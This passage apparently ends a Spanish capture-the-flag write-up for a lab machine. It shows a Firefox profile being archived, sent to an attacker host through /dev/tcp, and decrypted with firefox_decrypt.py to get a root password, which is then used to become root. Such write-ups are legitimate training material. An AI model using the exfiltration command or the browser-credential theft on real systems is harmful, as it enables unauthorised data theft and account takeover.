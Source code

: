 Vamos a la máquina víctima y vamos a crear un comprimido con todo el contenido del directorio del perfil que queremos.
```console
tar -cvf profile.tar.gz esmhp32w.default-default/
```

Nos transmitimos este archivo a nuestra máquina víctima.
```console
cat profile.tar-gz > /dev/tcp/192.168.45.167/8081
```

Ahora en nuestra máquina, extraemos este comprimido.
```console
tar -xvf profile.tar.gz
```

Y ahora sí que podemos utilizar el script, seleccionar el perfil y ver las credenciales desencriptadas.
```console
python3 firefox_decrypt.py ./
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

¿Podríamos haber subido este script a la máquina víctima y hacer este proceso de una forma mas fácil? Sí, efectivamente, pero aquí nos gusta complicarnos la vida porque no somos lammers.

Con la una única credencial encontrada podemos migrar al usuario `root` en la máquina víctima.
```console
[elliot@insanityhosting firefox]$ su root
Password:
[root@insanityhosting firefox]# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos ver la flag de `root`
```console
[root@insanityhosting ~]# cat proof.txt
311c3a3bb29b7e...
```

¡Y ya estaría!

Happy Hacking! 🚀